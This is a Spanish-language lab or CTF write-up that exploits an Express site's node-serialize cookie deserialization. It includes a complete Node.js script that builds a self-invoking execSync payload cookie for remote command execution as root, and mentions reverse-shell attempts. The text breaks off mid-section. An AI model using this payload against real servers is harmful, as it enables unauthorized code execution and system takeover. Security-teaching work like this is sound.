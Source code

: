 # Ejercicio 2

Cuando ingresamos al sitio, nos encontramos con una imagen y un simple texto:
> The site is not yet complete, Come Back Later! 

Pero una vez que recargamos la pagina, esta vez vemos:
```
SyntaxError: Unexpected token F in JSON at position 79
    at JSON.parse (<anonymous>)
    at Object.exports.unserialize (/under/node_modules/`node-serialize`/lib/serialize.js:62:16)
    at /under/server.js:12:29
    at Layer.handle [as handle_request] (/under/node_modules/express/lib/router/layer.js:95:5)
    at next (/under/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/under/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/under/node_modules/express/lib/router/layer.js:95:5)
    at /under/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/under/node_modules/express/lib/router/index.js:335:12)
    at next (/under/node_modules/express/lib/router/index.js:275:10)
```

Pareciera ser que a la pagina le estamos mandando algo la segunda vez que entramos... Quizas una cookie?

Interceptando la request con un proxy, podemos leer
```
Cookie: profile=eyJ1c2VybmFtZSI6IkFkbWluIiwiY3NyZnRva2VuIjoidTMydDRvM3RiM2dnNDMxZnMzNGdnZGdjaGp3bnphMGw9IiwiRXhwaXJlcz0iOkZyaWRheSwgMTMgT2N0IDIwMTggMDA6MDA6MDAgR01UIn0%3D
```

El prefijo 'ey' me suena de '{' en base64, y ademas vemos la presencia de un %3D que pareciera indicar que esta url-encoded.

Asi que pasandolo por url-decode + base64 en cyber chef obtenemos:
```
{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":Friday, 13 Oct 2018 00:00:00 GMT"}
```

Ahora entendemos el stack trace. Justamente este JSON esta mal hecho, deberia decir `"Expires=": "Friday ..."`, pero dice `"Expires=" : Friday ... "` (falta una comilla)

Agregando la comilla y encodeando en orden inverso para mandarselo por el proxy, la pagina ahora nos saluda:
> Hello Admin

Esto es peligroso, ya que esta tomando nuestro `user` como el valor de la cookie, la cual esta solo encodeada en b64. Esto no es peligroso en esta pagina, pero si hiciese algun tipo de consulta/cambios en el sistema dado el user, seria peligroso.

Ademas, tampoco se chequea el campo `Expires=` del token, ya que lo deje con la misma fecha (2018).

De igual manera, volviendo al stack trace, nos podemos dar cuenta de varias cosas importantes, una de ellas, es que la tecnología que usa este sitio es `express`, un framework de `node.js`, y la segunda, es que se esta usando la libreria `node-serialize`, la cual posee un bug conocido en la funcion `unserialize`. Podemos serializar una llamada a una funcion (recordando que las funciones en JS son objetos, asi que es posible), usando la misma `serialize` del paquete `node-serialize`.

Entonces lo que se nos ocurrio, dado que el servidor nos retorna el valor de la entrada `username`, fue inyectar codigo en esa entrada

Para esto, hicimos un script que nos auto-encodee una cookie con una funcion en la entrada `username`

```
const command = 'ls -lha /'

const payload = {
    'csrftoken': 'u32t4o3tb3gg431fs34ggdgchjwnza0l=',
    'Expires=': 'Tuesday, 13 Oct 2020 00: 00: 00 GMT',
    'username': function () {
        return require('child_process').execSync(command).toString();
    }
};

const serialize = require('node-serialize');

let res = serialize.serialize(payload);

res = res.slice(0, -2) + '()' + res.slice(-2); // to make it call itself

console.log('Result\n');
// serialize.unserialize(res);
console.log('Serialized: ' + res);
console.log('Cookie: ' + encodeURIComponent(Buffer.from(res).toString('base64')));
```

Corriendo varios comandos con esta tecnica, vimos que el usuario activo es `root`, que hay keys autorizadas para conectarse por ssh. Osea podemos hacer de todo, hasta borrar archivos muajaja.

Intentamos hacer una conexion reversa con `netcat`, pero `netcat` no esta en el sistema. Entonces intentamos hacer una conexion reversa de ssh/generar keys para poder entrar, pero antes se nos ocurrio directamente conectarnos por nodejs.

Para esto hay que abrir puertos ...

# Parte de Octa

